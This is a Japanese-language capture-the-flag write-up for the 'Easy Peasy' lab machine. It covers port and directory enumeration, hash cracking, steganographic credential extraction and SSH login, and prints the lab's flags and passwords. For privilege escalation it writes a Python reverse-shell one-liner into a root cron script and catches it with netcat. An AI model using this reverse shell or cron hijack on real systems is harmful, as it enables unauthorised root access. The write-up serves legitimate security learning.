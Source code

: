 # Easy Peasy

## About the CTF
NmapやGobusterなどのツールを使用してシステムに侵入する、
個人的にダメダメでした。。。
カンニングした部分も多々ありますが、後学のためにまとめておきます！

## Writeup
---  
### Task 1  Enumeration through Nmap
まずはnmap!
```
nmap -sV <IP> -p0-65535

~~~~~~~~~~
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Task1の問題はこれで全部答えられそう！

- 1.How many ports are open?  `3`
- 2.What is the version of nginx?  `1.16.1`
- 3.What is running on the highest port?  `Apache`

---
### Task 2  Compromising the machine
- 1.Using GoBuster, find flag 1.
gobusterを使用して隠されたディレクトリを探す。
```
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -t 100

/hidden               (Status: 301) [Size: 169]
/index.html           (Status: 200) [Size: 612]                                  
/robots.txt           (Status: 200) [Size: 43]  
```
`/hidden`のhttp response codeが301でリダイレクトされていることがわかる。  
`/hidden`に対して再度`gobuster`を実行する。
```
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -t 100

/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169]
```
`/whatever`を発見。  
続けて`/whatever`に対して`gobuster`をかけてみるも、何も見つからない。  
バックグラウンドのイメージにヒントがあるのかなと思って、htmlをダウンロードしてみる。  
なんか意味深なものを発見。  
`<p hidden="">ZmxhZ3tmMXJzN19mbDRnfQ==</p>`  
Base64でdecodeする。  
```
echo "ZmxhZ3tmMXJzN19mbDRnfQ==" | base64 -d

flag{f1rs7_fl4g}
```

一丁上がり！ `flag{f1rs7_fl4g}`

- 2.Further enumerate the machine, what is flag 2?  
`Port:65524`に対してgobusterを実行する。
```
gobuster dir -u http://<IP>:65524 -w /usr/share/wordlists/dirb/common.txt -t 100

~~~~~~~~
/.hta                 (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 10818]
/robots.txt           (Status: 200) [Size: 153]  
/server-status        (Status: 403) [Size: 280]  
~~~~~~~~
```
ディレクトリは特に見つからないが、`robots.txt`を確認してみる。

Chromeで`http://<IP>:65524/robots.txt`にアクセス。

```
[robots.txt]

User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```
User-Agentの部分が答えかな〜。32文字なのでmd5 hashかな。  
サイトによって答えが出てこないのが辛いところ。  
[ここ](https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250)は出てくる。

`flag{1m_s3c0nd_fl4g}`

- 3.Crack the hash with easypeasy.txt, What is the flag 3?  
`http://<IP>:65524`にアクセスする。  
Apacheのデフォルトページだけど実はそうじゃないらしい。  
`view-source:http://<IP>:65524`でソースコードを表示し`flag`で検索をかけるとヒット！

`flag{9fdafbd64c47471a8f54cd3fc64cd312}`

- 4.What is the hidden directory?  
`view-source:http://<IP>:65524`で`hidden`で検索をかけると、`its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu`なる記述が。  
[Cyberchef](https://gchq.github.io/CyberChef/)で`ba`から始まるdecodeを片っぱしから試してみる。  
`base62`で意味ありげな文字列が出てきたのでこれが答えっぽい。

`/n0th1ng3ls3m4tt3r`

- 5.Using the wordlist that provided to you in this task crack the hash. What is the password?  
`http://<IP>:65524/n0th1ng3ls3m4tt3r`にアクセスする。  
なんか文字があるので、これをクラックするのか。`940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`  
ヒントを確認すると、`Gost hash`なるものらしい。  
`john the ripper`で解読する。ワードリストは与えられた`easypeasy.txt`を使う。

```
john --format=gost --wordlist=./easypeasy.txt ./hash.txt

~~~~~~~~
mypasswordforthatjob (?)     
~~~~~~~~
```
*hash.txtは解析対象のhashを記述したテキストファイル。

`mypasswordforthatjob`

- 6.What is the password to login to the machine via SSH?  
`http://<IP>:65524/n0th1ng3ls3m4tt3r`にあった画像ファイルを調べてみる。   
(苦戦した〜。binwalkとsteghide,zstagの使い分けを勉強しよう。)  
パスワードは前問の答えを使う。  

```
steghide extract -sf binarycodepixabay.jpg -p mypasswordforthatjob
```
出来上がったファイルの中身を確認する、
```
cat secrettext.txt 

username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```
passwordの部分は[Cyberchef](https://gchq.github.io/CyberChef/)でデコード（from binary）する。

`iconvertedmypasswordtobinary`

- 7.What is the user flag?  
前問でsshのユーザー名とパスワードが判明したので、ターゲットに向けてsshをかける。
```
ssh boring@<IP> -p 6498
password : iconvertedmypasswordtobinary
```
boringのホームディレクトリを確認すると、`user.txt`があったので、中身を確認するとflagを発見。
`flag{n0wits33msn0rm4l}`

- 8.What is the root flag?  
sudo使えるか調べてみる。
```
sudo -l

Sorry, user boring may not run sudo on kral4-PC.
```
ダメっぽい。この時点でSUIDを使うとかは選択肢から消える（？）   
`/etc/crontab`を確認してみる。
```
cat /etc/crontab

~~~~~~~~~~~~~~~~~~~~~~
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
一番下のジョブが使えそうな気がする。
`.mysecretcronjob.sh`を確認してみる。
```
cat /var/www/.mysecretcronjob.sh 

#!/bin/bash
# i will run as root
```
ここにrevers shell仕掛ける系だ〜。  
python3が使えるみたいなので、以下のコマンドを`.mysecretcronjob.sh`に記述する。
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LOCAL IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
*言語ごとのrevers shellは改めてまとめよう。

revers shellのコマンドはcronで勝手に実行されるので、ローカルPCで待ち受けよう。(MAC用)
```
nc -lvc -p 4444 
```
revers shellが成立したら、`/root`を探索して、`.root.txt`を発見。
```
cat /root/.root.txt

flag{63a9f0ea7bb98050796b649e85481845}
```
`flag{63a9f0ea7bb98050796b649e85481845}`

おしまいです。